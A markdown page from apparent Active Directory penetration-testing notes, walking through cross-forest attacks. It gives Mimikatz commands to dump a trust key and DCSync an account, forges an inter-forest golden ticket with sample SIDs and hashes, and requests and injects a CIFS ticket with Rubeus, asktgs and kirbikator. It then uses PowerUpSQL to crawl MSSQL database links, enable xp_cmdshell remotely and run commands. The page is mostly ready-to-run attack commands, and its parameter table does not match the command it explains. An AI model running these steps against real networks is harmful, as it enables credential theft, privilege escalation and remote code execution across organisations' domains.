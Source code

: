 ```yaml
---
title: Cross Forest Attacks
category: Active Directory
order: 6
---
```


In this section we are going to abuse trusts between forests.

# Across Forests using Trust Tickets

First we need to retrieved the Trust Key:

```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"'
```

An **inter-forest TGT** can be forged:

```powershell
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-268341927-4156871508-1792461683 /rc4:cd3fb1b0b49c7a56d285fffdd1399231 /service:krbtgt /target:extcorp.local /ticket:C:\temp\trust_forest_tkt.kirbi"'
```
* **Invoke-Mimikatz**

|                   **Parameter**                   |                 **Description**                |
|:-------------------------------------------------:|:----------------------------------------------:|
| /domain:sub.corp.local                            | Current Domain FQDN                            |
| /sid:S-1-5-21-268341927-4156873456-1784235843     | Current Domain SID                             |
| /sids:S-1-5-21-280534878-1496970234-700767426-519 | SID of Enterprise Admins group (Parent Domain) |
| /user:Administrator                               | User to impersonate                            |
| /krbtgt:a9b30e5b0dc865eadcea9411e4ade72d          | krbtgt hash of Current Domain                  |
| /tiket:C:\Windows\Temp\trust_tkt.kirbi            | File to store the ticket                       |



Now we can request a TGS for `cifs` service on the dc of the trusted forest.

* Asktgs.exe (kekeo_old)

```powershell
.\asktgs.exe c:\temp\trust_forest_tkt.kirbi CIFS/dc01.extcorp.local
```

* Rubeus.exe
```powershell
.\Rubeus.exe asktgs /ticket:trust_forest_tkt.kirbi /dc:dc01.extcorp.local /service:CIFS/dc01.extcorp.local
```

And inject the ticket on the current session:

```powershell
.\kirbikator.exe lsa .\CIFS.dc01.extcorp.local.kirbi
```
> **Note**: We can not list all the file system of other forest. We can only list shared folders.

```
ls \\dc01.extcorp.local\share\
```

# Trust Abuse with MSSQL Server

MSSQL Servers are generally deployed in plenty windows domain. SQL Servers provide very good options for lateral movement as domain users can be mapped to dabase roles.

A fantastic tool to abuse MSSQL is `PowerUpSQLl`: 

* [https://github.com/NetSPI/PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)
```powershell
Import-Module .\PowerUpSQL.psd1
```

> **Note**: Important! Write `Import-Module` and import which have **PSD1** extension.

We can discover SQL servers:

```powershell
Get-SQLInstanceDomain
```

We can check accessibility:

```powershell
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```
Gather information:

```powershell
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

## Database Links

A database link allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources. In case of databases links between Microsoft SQL Servers, it is possible to execute stored procedures which means RCE.

Database link works even across forest trusts.

```powershell
Get-SQLServerLink -Instance mssql.corp.local -Verbose
```

So we can execute queries on the remote Server Link, see if this server has others links and above, instead of doing it manually that will be explained in a note, exists a script that crawls all the mssql server links.

```powershell
Get-SQLServerLinkCrawl -Instance mssql.corp.local -Verbose
```

> **Note**: Manual way:
>
> See if has a server link:
> `select * from master..sysservers`
>
> Openquery() function can be used to run quieries on a linked database:
> `select * from openquery('sql2.corp.local', 'select * from master..sysservers')`

To execute commands from MSSQL server we need to use `xp_cmdshell`. If `rpcout` is enabled `xp_cmdshell` can be enabled using:

```
EXECUTE('sp_configure "xp_cmdshell",1;reconfigure;') AT "other-sql"
```

And finally:

```powershell
Get-SQLServerLinkCrawl -Instance mssql.corp.local -Query "exec master..xp_cmdshell 'whoami'"
```

